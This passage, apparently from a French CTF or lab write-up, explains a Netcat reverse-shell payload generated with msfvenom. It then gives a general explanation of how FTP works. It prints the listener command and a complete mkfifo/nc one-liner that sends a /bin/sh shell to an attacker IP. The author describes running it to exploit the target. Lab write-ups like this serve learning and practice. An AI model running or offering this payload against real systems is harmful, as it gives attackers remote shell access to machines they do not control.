 Cette commande génère un payload de reverse shell pour Unix/Linux utilisant Netcat. Lorsque ce payload est exécuté sur une machine cible, il tentera de se connecter à l'adresse IP spécifiée (`lhost`) sur le port spécifié (`lport`). Une fois connecté, l'attaquant obtient un accès shell à la machine cible.

Pour utiliser ce payload, il est typiquement nécessaire de mettre en place un écouteur sur l'adresse IP et le port spécifiés. Vous pouvez utiliser Netcat pour cela, par exemple :

```bash
nc -lvnp 4444
```

Cela permettrait à l'attaquant d'attendre les connexions entrantes sur le port 4444 et de prendre le contrôle du shell lorsqu'une connexion est établie.

Je lance ma commande pour le payload ensuite je lance mon netcat avec la commande `nc` . Je termine par lancer le payload dans le shell distant. Dans mon cas le payload qu’à générer le msfvenom est `mkfifo /tmp/gehxlw; nc 10.9.3.36 4444 0</tmp/gehxlw | /bin/sh >/tmp/gehxlw 2>&1; rm /tmp/gehxlw`.

Je profite de l’exploit.

# FTP

FTP, ou File Transfer Protocol, est un protocole utilisé pour transférer des fichiers sur un réseau. Il fonctionne sur un modèle client-serveur où un client initie une connexion à un serveur pour effectuer des transferts de fichiers.

Voici comment FTP fonctionne typiquement :

1. **Modèle Client-Serveur** : FTP utilise une architecture client-serveur. Le client, tel qu'un ordinateur ou une application logicielle, établit une connexion avec le serveur FTP.
2. **Deux Canaux** : Les sessions FTP utilisent deux canaux distincts :
    - **Canal de Commande** : Aussi appelé canal de contrôle, ce canal est utilisé pour transmettre les commandes du client vers le serveur et les réponses du serveur vers le client.
    - **Canal de Données** : Ce canal est utilisé exclusivement pour transférer des données, telles que des fichiers, entre le client et le serveur.
3. **Initialisation de la Session** :
    - Le client établit une connexion avec le serveur.
    - Le serveur authentifie le client en validant les informations d'identification de connexion.
    - Une fois authentifié, le serveur ouvre une session FTP.
4. **Commandes FTP** : Pendant la session, le client peut émettre diverses commandes FTP pour effectuer des opérations sur le serveur, telles que lister des répertoires, téléverser des fichiers, télécharger des fichiers, supprimer des fichiers, etc.
5. **FTP Actif vs Passif** :
    - **FTP Actif** : Le client initie une connexion au serveur sur un port spécifié, et le serveur se connecte ensuite au client pour transférer des données.
    - **FTP Passif** : Le serveur ouvre un port d'écoute, et le client se connecte au serveur pour transférer des données. Le mode passif est souvent utilisé lorsque le client est derrière un pare-feu ou une translation d'adresses réseau (NAT).
6. **Efficacité** : La séparation des canaux de commande et de données permet à FTP d'être efficace. Les commandes et les réponses peuvent être échangées indépendamment des transferts de données, ce qui est essentiel pour gérer les transferts de fichiers volumineux ou lorsque les conditions du réseau sont lentes.

